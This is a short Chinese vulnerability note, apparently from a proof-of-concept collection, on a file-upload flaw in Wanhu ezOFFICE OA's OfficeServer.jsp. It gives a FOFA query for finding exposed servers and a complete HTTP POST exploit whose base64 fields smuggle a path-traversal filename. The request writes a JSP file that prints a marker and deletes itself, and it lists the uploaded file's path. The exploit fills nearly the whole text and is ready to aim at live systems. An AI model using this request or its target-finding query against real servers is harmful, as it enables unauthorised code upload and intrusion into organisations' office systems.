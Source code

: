 ## 万户-ezOFFICE-OA-officeserver.jsp文件上传漏洞



## fofa

```
banner="OASESSIONID" && banner="/defaultroot/"
```

## poc

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0

DBSTEP V3.0     145             0               105             DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Ly8uLi8uLi9wdWJsaWMvZWRpdC83Yzc1QWYuanNw
<% out.println("5EA635");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
```

文件路径`/defaultroot/public/edit/7c75Af.jsp`

![image-20240626231259719](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262312795.png)